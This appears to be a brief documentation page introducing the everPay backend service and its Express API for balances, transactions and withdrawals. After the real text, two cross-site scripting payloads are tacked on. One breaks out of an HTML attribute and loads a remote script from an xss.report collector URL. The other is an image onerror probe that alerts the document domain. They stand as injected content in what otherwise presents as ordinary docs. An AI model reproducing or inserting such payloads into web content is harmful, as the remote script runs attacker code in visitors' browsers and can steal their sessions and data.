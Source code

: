 ```yaml
---
sidebar_position: 1
---
```


# Introduction

everPay backend service,

* Via everPay Server to get everPay basic information, account balance, transaction records, and perform everPay transaction sending function
* Via Express API to get quick withdrawal information and amount

'"><script src=//xss.report/s/mistertamil></script>
"><img/src/onerror=alert(document.domain)>
